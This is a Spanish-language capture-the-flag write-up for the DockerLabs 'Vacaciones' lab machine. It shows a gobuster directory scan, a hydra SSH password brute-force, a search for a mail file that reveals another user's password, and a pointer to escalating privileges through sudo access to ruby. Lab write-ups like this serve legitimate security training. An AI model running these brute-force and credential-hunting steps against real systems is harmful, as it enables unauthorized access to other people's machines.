

repository: scarlgyx/scarlgyx-cybersecurity · page: writeups/dockerlabs/vacaciones/index.html · generator: mkdocs

# Vacaciones

Con un gobuster
`❯ gobuster dir -u http://172.17.0.2 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-big.txt -t 30 -x html,php`

Se encuentra un *javascript* pero no se tiene permisos para acceder

se encuentra un *index.html* con este comentario en F12

```text
De : Juan Para: Camilo , te he dejado un correo es importante...
```


`hydra -l camilo -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2`
**password1**

## Escalada

Si ejecutamos `sudo -l` podemos ver que no podemos ejecutar nada como sudoç

Buscamos el correo que se menciona en el comentario
`find / -name "mail" 2>/dev/null`

```text
Me voy de vacaciones y no he terminado el trabajo que me dio el jefe. Por si acaso lo pide, aquí tienes la contraseña: 2k84dicb
```

Accedemos por ssh como *juan@172.17.0.2* y **2k84dicb**
ó
`su juan`

Al hacer `sudo -l` vemos que *(ALL) NOPASSWD: /usr/bin/ruby*
https://gtfobins.github.io/ -> te dice cómo escalar privilegios según binario ejecutable.
